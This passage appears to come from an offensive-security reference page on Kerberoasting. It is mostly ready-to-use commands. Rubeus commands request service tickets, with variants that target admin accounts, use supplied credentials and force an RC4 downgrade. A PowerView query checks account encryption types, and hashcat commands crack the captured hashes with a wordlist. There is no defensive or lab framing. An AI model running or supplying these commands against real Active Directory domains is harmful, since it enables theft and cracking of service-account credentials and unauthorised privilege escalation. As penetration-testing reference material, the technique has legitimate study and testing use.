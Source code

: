 Rubeus is the most flexible and powerful Kerberoasting tool for Windows. Example usages:

- **Basic Kerberoasting:**
    ```shell
    Rubeus.exe kerberoast /nowrap
    ```
- **Output hashes to a file:**
    ```shell
    Rubeus.exe kerberoast /outfile:hashes.txt /nowrap
    ```
- **Kerberoast only admincount=1 accounts:**
    ```shell
    Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
    ```
- **Kerberoast with alternate credentials:**
    ```shell
    Rubeus.exe kerberoast /creduser:DOMAIN\USER /credpassword:PASSWORD /nowrap
    ```
- **Kerberoast with RC4 downgrade (if supported):**
    ```shell
    Rubeus.exe kerberoast /tgtdeleg /nowrap
    ```
- **Kerberoast stats:**
    ```shell
    Rubeus.exe kerberoast /stats
    ```

> **Note:** On Windows Server 2019 DCs, RC4 downgrade is not possible; tickets will be encrypted with the highest supported type (usually AES).

### Encryption Types & Cracking Considerations

- **RC4 (etype 23):**
  - Hashcat mode: `13100`
  - Fast to crack, most common in legacy environments
- **AES-256 (etype 18):**
  - Hashcat mode: `19700`
  - Much slower to crack, but possible
- **Downgrade attacks:**
  - Possible on older DCs (pre-2019) by requesting RC4 tickets even if AES is supported

#### Example: Checking Supported Encryption Types
```powershell
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
- `0` = RC4 default
- `24` = AES only

#### Example: Cracking with Hashcat
```shell
# RC4
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
# AES-256
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
```
